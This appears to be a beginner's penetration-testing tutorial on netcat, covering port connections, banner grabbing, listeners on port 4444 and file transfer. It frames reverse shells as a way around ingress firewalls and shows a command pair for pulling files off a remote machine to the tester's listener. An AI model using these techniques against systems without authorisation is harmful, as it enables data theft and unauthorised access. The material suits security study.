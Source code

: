 # Netcat - The Swiss Army Knife of Network Connections

Definition of what netcat does: A utility which reads and writes data across network connections using TCP or UDP protocols

### Connecting to a TCP or UDP Port

Netcat is an incredible tool used by penetration testers largely because of its ease of use, combined with it's ability to open shells or reverse shells to target machines. 

The tool also allows us to:
1. Connect to a network service manually
2. Check if a port is open
3. Determine the versioning of a service by grabbing its banner

To run a netcat command against a remote host,. all that is needed is:
1. The IP of the machine you are testing
2. The port on which you want to test
3. (Optional) Flags that can be passed to netcat for various additional functionalities. 

An Example:

```bash
nc <ip address> <port>

nc 10.10.10.10 22
```

Some additional information on what netcat can do can be found here:
- https://www.varonis.com/blog/netcat-commands
- https://www.ionos.com/digitalguide/server/tools/netcat/

### LISTENING on a TCP/ UDP Port

One great thing about netcat is that the tool allows you to run netcat as a SERVER (listening for a connection) or a CLIENT (Trying to connect to a remote host). 

In penetration testing, it is common to try to get a remote machine to connect BACK to the machine you are working from. This is because there are often INGRESS firewall rules (Ingress= information coming into a system, EGRESS= Information going OUT of a system) in place that say "Disallow any incoming connections" BUT firewalls typically have no issue with allowing OUTGOING connections as computers are obviously being used to retrieve information from out on the web. 

This makes netcat a handy tool for tricking a user or a program on a computer to send a netcat connection to your machine, where you have set up a netcat listener to open a command shell (if this doesn't make sense, keep reading. It will eventually make sense).

To listen on your local machine with netcat we can run the following (pay attent to the -l flag as that is the flag that tells the computer to listen on a specific port)

```bash
nc -lnvp 4444
```
In this instance the flags each have their own meaning:

- -n : Disable DNS resolution (aka use an IP address as an address instead of a domain name)
- -l : Listen
- -v : Verbose output
- -p : Local port to listen on

In this case the local machine is now listening for connections on port 4444. 

### Transferring files with Netcat

One cool additional functionality of netcat is that we can transfer files with it. 

An example to try out if you have two machines:

1. Run this on your local machine
```bash
nc -nlvp 4444 > bringit.txt
```
2. Run this on your remote machine:
```bash
nc -nv <IP of local machine> 4444 < <filename>
```

At the end of this the file you chose should have transeferred to your local machine. Depending on the sizr, it might take a while. but this is a good technique to use when trying to pull information down from a remote machine that happens to have netcat installed. 




